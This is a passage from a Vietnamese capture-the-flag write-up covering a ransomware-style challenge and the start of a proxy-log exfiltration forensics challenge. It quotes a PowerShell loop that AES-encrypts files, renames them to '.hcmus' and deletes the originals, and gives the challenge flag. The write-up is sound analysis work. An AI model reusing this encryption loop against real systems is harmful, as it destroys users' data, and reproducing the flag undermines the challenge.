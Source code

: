 ```csharp
        $rijndael.Mode = [System.Security.Cryptography.CipherMode]::CBC
        $rijndael.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

        foreach ($directory in $targetDirectories) {
            Get-ChildItem -Path $directory -Recurse -File | ForEach-Object {
                if ($fileExtensionsToEncrypt -contains $_.Extension) {
                    $originalFile = $_.FullName
                    $encryptedFile = $originalFile -replace $_.Extension, ".hcmus"

                    $fileBytes = [System.IO.File]::ReadAllBytes($originalFile)
                    $encryptor = $rijndael.CreateEncryptor()
                    $encryptedBytes = $encryptor.TransformFinalBlock($fileBytes, 0, $fileBytes.Length)

                    [System.IO.File]::WriteAllBytes($encryptedFile, $encryptedBytes)
                    Remove-Item $originalFile
                }
            }
        }
    
```

Script này mã hóa **AES mode CBC** tất cả file có đuôi `.txt` với key là file `12345` được decode base64 và hash SHA 256 cùng với iv là file `iv` được decode base64 rồi đổi đuôi file bị mã hóa sang `.hcmus`.

Nhặt hết ra đem lên cyberchef giải mã:

![image](https://hackmd.io/_uploads/SJv9xQquex.png)

> `HCMUS-CTF{n3v3r_rUn_str4ng3r_f1l3s_adfx}`


### Forensics/Event Log

> Our web server detected suspicious activities and a potential leak of sensitive data.

Challenge yêu cầu phân tích các log hệ thống để tìm ra dấu hiệu rò rỉ dữ liệu nhạy cảm từ máy chủ web.
Phân tích `squid.log` thì đây là log của proxy Squid ghi lại các truy cập web qua proxy.

![image](https://hackmd.io/_uploads/r1rpEQcOxx.png)

Quan sát điểm đáng ngờ khi có nhiều truy cập đến `webhook.site` từ các IP nội bộ khác nhau là dấu hiệu rò rỉ dữ liệu.

> webhook.site là dịch vụ cho phép bất kỳ ai tạo một endpoint để nhận dữ liệu từ bên ngoài
{. :prompt-info }

Lọc các đoạn `webhook.site` để phân tích:

```python
s = open('squid.log', 'r').readlines()
with open('webhook_site.log', 'w') as f:
    for line in s:
        if 'webhook.site' in line:
            f.write(line)
```
